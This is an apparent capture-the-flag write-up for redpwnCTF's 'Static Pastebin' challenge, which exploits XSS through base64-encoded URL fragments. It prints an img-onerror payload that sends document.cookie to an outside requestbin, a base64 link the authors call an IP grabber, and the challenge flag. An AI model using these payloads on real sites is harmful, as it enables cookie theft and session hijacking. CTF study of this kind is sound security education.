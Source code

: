# Static Pastebin

So first things first, create a pastebin. When you go to the display, you'll see a url like https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPXggb25lcnJvcj0iZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj11YjgyWGIxQzhvcyciPg==

### Disclamer, that link functions as an IP grabber. Click at your own risk. We at The WinRaRs are not responsible for any harm that clicking on this link will bring.

That looks kinda like base64, and if you base64 decode the thing after https://static-pastebin.2020.redpwnc.tf/paste/# you'll find it decodes to the content of the pastebin! This allows us to easily create pastebin messages.

There's also an admin bot submit form, where we can submit a url, and the admin bot will visit it. 

Rak found that the xss `><img src='' onerror="javascript code">` worked. 

First, we can try a simple redirect. `><img src='' onerror="document.location='requestbinurl'">`. I set up a requestbin for this purpose. Remember: we base64 encode the payload, and append it to the major part of the url.

https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPScnIG9uZXJyb3I9J2RvY3VtZW50LmxvY2F0aW9uPSJodHRwOi8vcmVxdWVzdGJpbi5uZXQvci8xbGZyZnlpMSInPg==, as a sample, works, sending a request to our requestbin. Let's exfiltrate some information. We can use GET parameters to exfiltrate data.

`><img src='' onerror='document.location="http://requestbin.net/r/1lfrfyi1?thing=" + document.cookie'>`

This would redirect the admin to our requestbin, sending the cookies as the "thing" parameter. Base64 encoding and submitting this as a url, a request on the requestbin pops up with the parameters ?thing=flag=flag{54n1t1z4t10n_k1nd4_h4rd}, giving us the flag, 

#### flag{54n1t1z4t10n_k1nd4_h4rd}
